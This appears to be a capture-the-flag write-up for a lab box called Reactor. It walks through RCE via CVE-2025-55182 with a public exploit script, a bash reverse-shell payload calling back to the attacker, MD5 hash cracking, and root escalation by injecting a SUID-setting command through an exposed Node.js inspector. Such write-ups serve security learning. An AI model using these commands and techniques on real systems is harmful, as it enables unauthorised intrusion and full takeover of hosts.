


<div align="center">
  <p style="font-size: 520px; margin: 0;">
    <h1> <b>Reactor</b> </h1>
  </p>
</div>
    
<p align="center">
  
</p>


## Summary

This box was rooted through three main stages:

1. Remote Code Execution on a Node.js web app (port 3000) via [CVE-2025-55182](https://github.com/Saturate/CVE-2025-55182-react2shell/tree/main), using a malicious executable script delivered through `react2shell.mjs`.
   
3. Lateral movement from `node` to `engineer` by extracting and cracking a leaked MD5 hash from a hijacked SQLite database.
   
5. Privilege escalation from `engineer` to `root` by abusing the Node.js V8 Inspector protocol exposed locally on port 9229.

## Initial Access (as node)

The web server on port 3000 was running an application vulnerable to [CVE-2025-55182](https://github.com/Saturate/CVE-2025-55182-react2shell/tree/main). A public Node.js exploit, `react2shell.mjs`, was used to trigger RCE.

### Payload issues with msfvenom

The exploit initially failed due to a missing real payload. A native Linux x64 binary generated with `msfvenom` did not work correctly, since standard shell redirections (`/dev/tcp`) broke due to how the victim process spawned the binary.

### Working solution: native Bash script

Replacing the payload with a plain executable Bash script resolved the issue:

```bash
# On the attacker machine (Kali)
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/YOUR_IP/4444 0>&1' > my-agent
chmod +x my-agent
```

The exploit was launched with a temporary local server on port 8888, from which the target downloaded and executed the payload:

```bash
./react2shell.mjs -t http://10.129.245.214:3000 --deploy ./my-agent --lhost YOUR_IP
```

A reverse shell connection was received on port 4444 as the user `node`.


## Lateral Movement (node to engineer)

<div align="center">
</div>

</p>

Inspecting the web application's files revealed an SQLite database. Extracting strings from it exposed a `users` table with a stored credential:

- **User:** engineer
- **Hash (MD5):** `39d97110eafe2a9a68639812cd271e8e`

The hash was cracked using John the Ripper with the rockyou.txt wordlist:

```bash
echo "39d97110eafe2a9a68639812cd271e8e" > hash.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Result:** the plaintext password was `reactor1`.

Switching to the `engineer` user:

```bash
ssh engineer@reactor.htb  # Password: reactor1
```
<div align="center">
</div>

</p>

At this point the user flag was readable at `/home/engineer/user.txt`.

## Privilege Escalation (engineer to root)

Checking listening ports with `ss -ltnp` revealed that port 9229 was open only on localhost (127.0.0.1). This port belongs to the Node.js Inspector, a debugging protocol that, since it was running as `root`, allowed arbitrary command execution with full privileges.

### SSH local port forwarding

The port was tunneled to the attacker machine over SSH:

```bash
ssh -L 9229:127.0.0.1:9229 engineer@10.129.245.214
```

### Code injection via node inspect

With the port forwarded locally, the native Node debugger was used to connect to the victim's inspector session:

```bash
node inspect 127.0.0.1:9229
```
<div align="center">
</div>

</p>

From the `debug>` prompt, the process's global execution object was abused to set the SUID bit on `/bin/bash`:

```javascript
debug> exec("process.mainModule.require('child_process').execSync('chmod +s /bin/bash')")
```

The command returned a successful buffer response (`Uint8Array(0)`), confirming execution as `root`.

### Consolidating root

Back in the interactive `engineer` ssh session, the SUID bit on bash was leveraged to escalate:

```bash
bash -p
```

The prompt changed to `#`, confirming root access,.

```bash
 cat /root/root.txt
```

## Tools Used

- react2shell.mjs (public exploit for CVE-2025-55182)
- John the Ripper + rockyou.txt
- SSH (local port forwarding)
- Node.js built-in debugger (`node inspect`)
